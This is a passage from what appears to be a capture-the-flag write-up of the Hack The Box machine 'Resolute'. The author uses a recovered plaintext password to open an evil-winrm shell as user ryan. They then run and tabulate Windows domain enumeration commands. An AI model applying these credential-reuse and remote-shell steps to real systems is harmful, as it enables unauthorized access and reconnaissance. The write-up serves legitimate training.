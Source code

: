 ```console
SerializationVersion: 1.1.0.1
**********************
```
This definitely looks like something. `ryan` looks like he's in charge of something, and I've now got his password: `Serv3r4Admin4cc123!`. I am going to see if I can connect to the machine with those credentials:

```console
root@discovery:~/htb/resolute# evil-winrm -i 10.10.10.169 -u ryan -p Serv3r4Admin4cc123!

Evil-WinRM shell v2.0

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\ryan\Documents> whoami
megabank\ryan
```

Alright. Now this can often be where I fall down the deepest of rabbit holes. I need to remember to stick to my process and enumerate. What do we know?

I have a bunch of users, two passwords worked and one worked because of re-use. I need to remember to try to re-use `Serv3r4Admin4cc123!` on other users if I get stuck with `ryan`. I also found that due to a hard-coded password in a PowerShell script; I should look for some more scripts while while on the system as `ryan`.

Before we do any of that, I need to remember *basic* windows enumeration from OSCP: 

| Question                             | Command              |
|--------------------------------------|----------------------|
| Who am I? 						   | `whoami`             |
| What am I on?                        | `hostname`           |
| What groups am I in?                 | `whoami /groups`     |
| What groups are there?               | `net groups /domain` |
| What other users are there?          | `net users /domain`  |
| Are there any other users logged on? | `qwinsta`            |

```console
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami
megabank\ryan
*Evil-WinRM* PS C:\Users\ryan\Documents> hostname
Resolute
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes                                                     
========================================== ================ ============================================== ===============================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group             
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group             
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group             
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group             
```
